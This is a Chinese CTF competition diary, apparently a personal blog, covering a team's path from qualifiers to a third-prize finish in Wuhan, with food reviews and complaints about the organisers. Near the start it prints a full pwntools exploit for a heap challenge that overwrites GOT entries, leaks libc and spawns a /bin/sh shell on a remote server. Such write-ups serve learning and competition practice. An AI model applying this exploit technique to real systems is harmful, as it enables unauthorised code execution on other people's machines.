







## 前言

今年暑假，AiDai突然给👴报了一个国赛。我寻思着就重在参与吧，反正闲着也是闲着，并不抱有太大希望。

## 初赛

选择题，随便答，随缘答。

然后打ctf那一天我正好买了mac，花半天配置mac，到晚上看题的时候已经被队友带飞了。盯着nofree(house_of_orange)看了半天，寻思着有点思路，直接开打，做到半夜一点半左右出了。

```python
from pwn import *
elf = ELF("./nofree")
libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
#context.log_level = 'debug'

def add(idx,size,con):
    io.sendlineafter("choice>> ",'1')
    io.sendlineafter("idx:",str(idx))
    io.sendlineafter("size: ",str(size))
    io.sendafter("content: ",con)
    
def edit(idx,con):
    io.sendlineafter("choice>>",'2')
    io.sendlineafter("idx:",str(idx))
    io.sendafter("content: ",con)

ret = 0x0000000000400C34
buf = 0x6020c0
chunk1 = 0x6021d0

memset_got = 0x602038
strdup_got = 0x602068
puts_plt = 0x4006D0

#io = process("./nofree")
io = remote("101.200.53.148",12301)
for i in range(30):    
    add(0,0x70,'a'*0x70)
for i in range(2):
    add(0,0x90,'a'*0x10)
add(0,0x90,'a'*0x20)
edit(0,'\x00'*0x28+p64(0x91))
add(1,0x90,'a'*0x90)
edit(0,'\x00'*0x28+p64(0x71)+p64(chunk1))
add(0,0x90,'a'*0x60)
add(1,0x70,'a')
add(0,0x70,'a'*0x60)
edit(0,p64(memset_got)+p64(0x90))
edit(2,p64(ret))
for i in range(28):
    add(1,0x70,'a'*0x70)
for i in range(3):
    add(1,0x70,'a'*0x10+'\x00')
edit(0,p64(buf+0x90)+p64(0x90))
edit(2,'a'*0x50)
add(2,0x70,'a'*0x20+'\x00')
edit(2,'\x00'*0x28+p64(0xb1))
add(1,0x90,'a'*0x90)
payload = '\x00'*0x28+p64(0x91)+p64(0)+p64(buf-0x10)
edit(2,payload)
add(1,0x90,'a'*0x80+'\x00')
edit(0,p64(strdup_got))
edit(2,p64(puts_plt))
add(1,0x20,'\xa0')
libc.address = u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c4ba0
log.info('libc.address : '+hex(libc.address))
edit(2,p64(libc.sym['system']))
add(1,0x20,'/bin/sh\x00')
io.interactive()
```

跟AiDai说说思路，睡觉。

后来听说还有更简单的思路，不管了。

## 复赛

### 第一天

这时候已经开学了，👴们直接到实验室整了张大桌子四个人一起打。Coin一看没密码学直接弃赛去打csp去了。就中午来送了个饭。

隔壁web手出了一个，拉胯。

AiDai直接拉出House_of_husk照着poc改脚本，秒一道pwn，一血。

之后第二道pwn开沙箱，我没有控制程序流的思路。aidai看了有思路，但是不会拿flag。我直接翻出以前的博客，打free_hook写setcontext拿到flag。

第三道题出了个大伏笔。明明是个UAF，aidai非要填满tcache去拿double_free。结果chunk数量少了2个，没法拿到shell。这时候其实已经有doublefree了，直接free然后用另外一个指针edit，能秒。大伏笔，出了这题能进前10。

fix不太会，好几个直接改free_plt得分不高。

晚上去日欣吃一顿，整了点🔥。约定要是进了决赛，👴们再吃一顿。不是，应该是为了再吃一顿，👴们要进决赛。

### 第二天

Coin跨行打web。偶然间看了一眼robots.txt，发现漏洞直接给出了。

然后第二个伏笔又来了。AiDai的orange不熟，我的也半吊。两个fastbin打hook的思路都出来了，结果因为没有消耗尽堆之后进行house，导致两个fastbin太远，没法覆盖。倒数第10分钟找到方法，时间不够，GG。

fix的时候另外两个👴又提前半小时跑了，到最后web有一道题没人管，aidai直接把正则全给禁了，草。

第二天的fix思路异常清晰，改size改指针啥的。pwn全部fix成功。

## 等

打完这一套，fish-farming战队排名第16，生死边缘疯狂徘徊。然后就是漫长的等build分数时间。

前几天刚出了build分数，排名又涨了，涨到13，但是还是生死线。

昨天说多晚也要出成绩，出nm呢。



今天也是昨天？

今天刚出成绩，进了15队，擦边进决赛，爽。

## 此刻所想之事

餐厅吃啥？烤鸭拌饭，加一大坨沙拉。

一会儿喝啥？楼下贩卖机，挑个最贵的。寻思就是魔爪了，一看拿铁8块，来一个。一出来300ml，黑。喝了一口，真不戳。上流人的咖啡真不戳。

公费武汉旅游，我来了！目标国赛三等奖，冲！！！

# YLBSB

## 起飞

比赛通知不知道咋滴突然就下来了，👴们13擦边进了决赛。马上开始办事去武汉。看车票，问报销，请课假，收拾东西，一套操作直接上了火车。

### 前奏

我们这次来武汉的目的大约有三个：

1. 吃
2. 报销
3. 抽奖
4. 混个三等奖

所以由此看出头等大事是口乞。来武汉坐了9小时的高铁，连中午饭都没吃，所以下车第一件事就是找个饭店把饭给吃了。

#### **火锅**

上嗨名单。

鸳鸯锅，羊肉+牛肉+五花肉，用来涮。加虾饺嗨带小菜。点了几串烤牛油，一人一串分着吃了。

就下面这个。



之所以上嗨名单，是因为吃的实在是一般，加上蘸料能放的料实在是太少，餐具都是一次性的。实在是享受不起，告辞，嗨名单。

#### **小炒**

白名单。

第二天晚上AiDai建议去吃点小炒，直接楼下找了一家店，三个人遵循n点菜法凑了一顿。

两荤一素，小炒肉有一股烧烤的香味，毛血旺量大味香，素菜里面带一点肉块，一顿人均30左右的饭，还可以开发票，血赚。



除了米饭比较少，其他的都挺棒，白名单。

## 比赛开始

主办方还是在比赛之前泄露了座位图。👴一看立马傻了。具体如下图：


相邻位置有南梦👴👴，隔壁队伍是天枢，斜对面还有高强度对线的嗨工带，中南带学一个队。被大佬包围，不知所措。

比赛开始十几分钟，我们意识到主办方没有收手机，于是我趁机拍了一张照片（南梦爷爷上镜）。



于是寻思着开个热点看一下，结果直接傻了。



收掉手机之后热点数量完全没有变过。

### 载入史册的AWD

包括以下要素：

1. 现场85队。
2. 交flag需要验证码。
3. 交flag需要10秒的cd。
4. 每队的靶机随机获得一种属性。
5. 重开，并且换模式。

接下来一个一个发瓜。

- AWD交flag带cd还有验证码，实在是有点龙鸣。我们队做出一个web，全程手动提交flag。每一轮flag刷新之后可以再提交一次，靠着这个苟了很久。显然，在验证码和自己的亲 之间，ylb选择了前者。有的队伍甚至中午左右调好了OCR识别验证码，结果平台越来越卡，后来干脆直接挂了？

- 现场85队，一开始服务器还撑得住，各种操作都比较流畅。后来发现这其实是个错觉， 从一开始有些队伍就看不到web和pwn中的某一道题目。然后到12点左右的时候出现情况了。一开始是我的账号突然就登不上去了，找管理人员，他说等一会儿工作人员正在修理。后来直接就是pwn的除了pwn5之外的靶机全部都登录不了了。直接找工作人员，工作人员给把请况记了下来。不过5分钟，平台崩了。
- 从下午两点左右开始吃，吃到三点左右。平台开了，但是数据没了。这时候第4个要素来了。aidai在加固阶段连不上自己的靶机了，可以连别人的。但是一会儿又翻转过来了，他又可以连别人的，连不了自己的。就非常奇怪。我们是全程可以连自己的，连不了别人的。后来过了一段时间，谁的靶机都连不了了，但是分数却一直在掉。自己都连不上还在被打？喵喵喵喵？
- 从三点半之后左右平台又崩了。之后ylb一直装死，再也没有把平台救过来。之后看到一张截图：《运维在抽烟》，不好找就没找那张截图了。茶歇去拿零食，吃了一下午把胃给吃坏了。



### 解题赛

第二天临时改了比赛规则，从AWD改成了解题赛。

比赛没开始就来了一个开胃小菜。ylb的分数解决方案是第一天的分数和第二天的分数乘一定的比例，没有交flag的队伍获得其他队伍的平均分。刚出了这个方案，嗨工带的师傅马上提出了异议。但是ylb的工作人员直接就没素质，直接甩下一句“你不想打可以出去”。然后好几个队伍都忍不住了。瞬间好多师傅全过去对线。最后在华科老师的维持之下，逐渐平息了下来。

之后打开wifi。



本以为有密码学可以直接起飞的。结果密码学只有一道龙鸣题目，解出来60多分，连跳高都不算。

PWN1是一道arm的栈溢出，aidai没环境，放了。PWN2是一道vmpwn，aidai和我都不会，放了。PWN3格式化字符串，把stdout关了，全场就1解，放了。gg。fix阶段没有什么好说的。不知道是要交wp还是什么原因，全场均分3分左右，ylbsb。

### 奖

三等奖，预期。

# 总结

**收获1：**

去武汉旅了一次游。

**收获2：**

线下认识了南梦师傅和小鹿师傅，并且在赛后成功进入了V&N战队。👴感觉真正的CTF生涯正式开始了。

**收获3：**

👴认识到了pwn的题目正在从glibc转移到arm，vm，kernel等等的非常规方向转移，所以说下半年的研究重点应该在非常规的pwn题目上。这也是对自己能力的一种提高吧。